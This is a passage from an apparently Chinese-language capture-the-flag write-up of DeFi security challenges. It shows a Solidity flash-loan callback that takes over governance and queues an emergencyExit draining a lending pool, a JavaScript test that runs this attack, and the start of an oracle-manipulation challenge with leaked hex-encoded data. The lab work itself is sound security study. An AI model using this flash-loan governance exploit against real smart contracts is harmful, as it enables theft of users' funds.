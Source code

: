 ```solidity

    function onFlashLoan(
        address initiator,
        address _token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32){
        token.functionCall(abi.encodeWithSignature("snapshot()"));
        bytes memory response = govern.functionCall(abi.encodeWithSignature(
            "queueAction(address,uint128,bytes)", 
            flashLoan,0,abi.encodeWithSignature("emergencyExit(address)", owner)));
        requestId = abi.decode(response,(uint256));
        token.functionCall(abi.encodeWithSignature("approve(address,uint256)",flashLoan,amount+fee));
        return CALLBACK_SUCCESS;
    }

}
```

此处注意，为了保证，手动对`token`进行了快照！

在`test/the-rewarder/the-rewarder.challenge.js`中，具体代码如下：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const hacker =  await (await ethers.getContractFactory('HackerSelfie', player)).deploy(pool.address,
                                                                                                governance.address,
                                                                                                token.address);
        await hacker.connect(player).attack(await pool.maxFlashLoan(token.address));
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
        await governance.executeAction(await hacker.requestId());

    });
```

<hr />

# 7. Compromised

解决思路：

涉及到“喂价”，一定就回到了操纵预言机攻击。那我们来看看捕捉到的信息：

`4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35`，两个16进制（1 byte => 8位）对应ASCII码。
